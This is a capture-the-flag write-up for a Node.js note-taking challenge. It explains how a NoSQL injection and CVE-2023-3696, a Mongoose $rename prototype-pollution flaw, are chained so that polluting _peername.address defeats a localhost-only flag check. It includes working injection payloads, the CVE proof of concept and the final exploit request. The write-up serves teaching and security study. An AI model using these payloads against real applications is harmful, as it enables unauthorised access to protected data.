






# Secure Notes
## Analysis

**Description**: We built this note-taking app to be so simple, there can't possibly be any bugs. We even added a door to claim the flag. However, only those who knock from inside may enter!
- Dockerfile

We can see the database used is MongoDB, so it seems this challenge will involve NoSQL injection. Additionally, the flag is located in an environment variable, and the server runs `nodejs`.

The main logic of the challenge is in `app.js`, and the `package.json` provides some extra information.



Dependencies include `express` and `mongoose` -> helping to create APIs and connect to the database.
- app.js

```javascript
const express = require('express');
const mongoose = require('mongoose');

const port = process.env.PORT ?? 3000;
const app = express();

const main = async () => {
    try {
        const uri = 'mongodb://localhost:27017/app';
        await mongoose.connect(uri);
        app.listen(port, () => {
            console.debug(`Server started on port ${port}`);
        });
    } catch (error) {
        console.error(error);
        process.exit(1);
    }
};

const Note = mongoose.model('Note', new mongoose.Schema({
    title: String,
    content: String,
}));
```
This snippet shows the app connects to MongoDB via the URI `mongodb://localhost:27017/app`. Furthermore, we can see the `Note` document is created and defined with 2 fields: `title` and `content`.
Let's look at the logic to access the flag.
```javascript
app.get('/flag', (req, res) => {
    const remoteAddress = req.connection.remoteAddress;
    if (remoteAddress === '127.0.0.1' || remoteAddress === '::1' || remoteAddress === '::ffff:127.0.0.1') {
        res.send(process.env.FLAG ?? 'HTB{f4k3_fl4g_f0r_t3st1ng}');
    } else {
        res.status(403).json({ Message: 'Access denied' });
    }
});
```
Here we have a fairly secure IP check logic that verifies the TCP/socket layer using `req.connection.remoteAddress` instead of `req.ip`, so host headers cannot be used to bypass it. This matches the hint: `We built this note-taking app to be so simple, there can't possibly be any bugs. We even added a door to claim the flag. However, only those who knock from inside may enter!`.
Checking through the endpoints, we find a very clear sink here.

## Sink


When the `noteId` parameter from the request goes through the `find` function -> it's clearly a NoSQL injection sink.
I tried sending a POST request to `/update` to test with this payload:
```json
{
  "noteId": {"$ne": null},
  "title": "lmao",
  "content": "lmao"
}
```
And received a response returning the `noteId` fields that have been created:
```json
[{"_id":"6a955ff96711eca4300dee5a","title":"lmao","content":"lmao","__v":0},{"_id":"6a9562e56711eca4300dee6f","content":"1","__v":0},{"_id":"6a956dfd6711eca4300dee86","title":"test","__v":0},{"_id":"6a956f036711eca4300dee8c","content":"heck","__v":0},{"_id":"6a95702d6711eca4300dee92","content":"","__v":0}]
```
But I didn't see any hidden flag field. It seems this isn't the main bug of the challenge because, on its own, it can't help us achieve RCE to read the flag directly.

## CVE-2023-3696
After that, I looked back at the dependencies and researched `mongoose 7.2.4`. I discovered a critical CVE for this version: [CVE-2023-3696](https://security.snyk.io/vuln/SNYK-JS-MONGOOSE-5777721).
It allows users to control objects via the `findByIdAndUpdate` function, and trigger the `$rename` operator. The challenge uses the `Express` library, which perfectly aligns with this CVE to provide a primitive for RCE.
- CVE PoC:
```javascript
import { connect, model, Schema } from 'mongoose';

await connect('mongodb://127.0.0.1:27017/exploit');

const Example = model('Example', new Schema({ hello: String }));

const example = await new Example({ hello: 'world!' }).save();
await Example.findByIdAndUpdate(example._id, {
    $rename: {
        hello: '__proto__.polluted'
    }
});

// this is what causes the pollution
await Example.find();

const test = {};
console.log(test.polluted); // world!
console.log(Object.prototype); // [Object: null prototype] { polluted: 'world!' }

process.exit();
```
The author creates a schema with a `hello` field, then passes it through the `findByIdAndUpdate` function, using the `$rename` operator to change the `hello` field to `__proto__.polluted`. Triggered via `Example.find()`, in older versions, `mongoose` didn't validate dangerous keywords, causing it to read the `__proto__.polluted` key and assign the value `'world'` to the `polluted` property of `__proto__`. This modifies the base structure of Objects in Node.js. 

- Let's test this PoC
Proceed to create a note with the title: lmao, then update:

```protobuf
POST /update

{"noteId":"6a96ed246711eca4300dee9a",
"$rename": {
    "title": "__proto__.polluted"
  }}
```



We can see the title has been set to null. We need to go into Docker to inspect it more closely by entering the database:
```bash
docker exec -it [container_name] sh
mongosh mongodb://localhost:27017/app
```
```mongoose
app> db.notes.find({ _id: ObjectId("6a96ed246711eca4300dee9a") })
[
  {
    _id: ObjectId('6a96ed246711eca4300dee9a'),
    content: 'lmao',
    __v: 0,
    ['__proto__']: { polluted: 'lmao' }
  }
]
```
Thus, the polluted property has been set to the value `lmao` -> CVE confirmed.
The rest of the process to solve this challenge has 2 paths: RCE followed by a reverse shell to get the flag, or bypassing the `remote address` check. The second method is easier.

## Shadowing property
Initially, I thought simply and chose a gadget, but it was incorrect, specifically:
```json
{
  "__proto__": {
    "remoteAddress": "127.0.0.1"
  }
}
```
I intended to rewrite `remoteAddress` so I could access the flag directly with this evidence:
```mongoose
app> db.notes.find({ _id: ObjectId("6a9562e56711eca4300dee6f") })
[
  {
    _id: ObjectId('6a9562e56711eca4300dee6f'),
    content: '1',
    __v: 0,
    ['__proto__']: { remoteAddress: '127.0.0.1' }
  }
]
```
But `/flag` still returned `Access denied`. 
After researching, I realized this is due to the property shadowing mechanism when a property has the same name in the prototype chain, for example:
```javascript
// sample obj
const prototypeObj = {
  mauSac: 'đỏ',
  soBanh: 4
};

const xeCuaToi = Object.create(prototypeObj);

// At this point, xeCuaToi doesn't have its own 'mauSac' property, it inherits from the prototype
console.log(xeCuaToi.mauSac); // Output: 'đỏ'

// We directly assign a property with the same name to xeCuaToi
xeCuaToi.mauSac = 'xanh';

// The direct 'mauSac' property on xeCuaToi SHADOWS the 'mauSac' property on the prototype
console.log(xeCuaToi.mauSac); // Output: 'xanh'

// The prototype property is not deleted; it is merely shadowed
console.log(Object.getPrototypeOf(xeCuaToi).mauSac); // Output: 'đỏ'
```
Therefore, the prototype property of `remoteAddress` was not overridden, so we couldn't access the flag.

## Node.js Socket Internals
We need to look closer at how `remoteAddress` works:
```javascript
// From Node.js net.js
Socket.prototype.__defineGetter__('remoteAddress', function() {
    return this._peername && this._peername.address;
});
```
When calling `req.connection.remoteAddress`, this function runs:
- It checks if the `this` socket object contains a `_peername` object. If it does, it returns `this._peername.address`; if not, it returns `undefined`. This clearly explains why rewriting `remoteAddress` failed.

Because `Socket.prototype` is closer to the actual `req.connection` object than `Object.prototype`, this getter shadowed the `remoteAddress` value on `Object.prototype`.
=> Therefore, for the pollution to succeed, we need to pollute the `_peername` property. Since the getter checks the `this` property every time it runs, if we can pollute it, it will return `this._peername.address`, thereby bypassing the remote address check.

## Exploit
We need to create a title containing `127.0.0.1` to set the value for the `_peername` property during pollution, then pollute it using `$rename`:
```json
{
    "noteId":"6a957091150dad3ae2261973",
    "$rename": {
        "title": "__proto__._peername.address"
    }
}
```
At this point, we have defined the `_peername` property:
```json
{__proto__: {_peername: {address: "127.0.0.1"}}}
```
so `req.connection.remoteAddress` will return `this._peername.address`.
After renaming, we proceed to access `/flag` and get the flag:

